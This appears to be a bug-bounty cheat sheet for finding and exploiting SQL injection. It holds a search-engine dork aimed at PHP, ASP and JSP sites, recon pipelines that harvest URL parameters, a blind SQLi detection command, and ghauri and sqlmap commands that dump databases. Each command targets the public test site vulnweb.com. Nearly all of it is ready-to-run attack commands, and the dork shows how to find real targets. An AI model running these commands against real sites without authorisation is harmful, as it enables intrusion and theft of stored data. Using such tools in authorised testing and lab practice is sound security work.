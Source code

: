 ## Dork

```
site:.in & filetype:php | filetype:asp | filetype:aspx | filetype:jsp | filetype:jspx & intext:"responsible disclosure"
```

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.all.parameters.txt
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.sql.parameters.txt
```

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
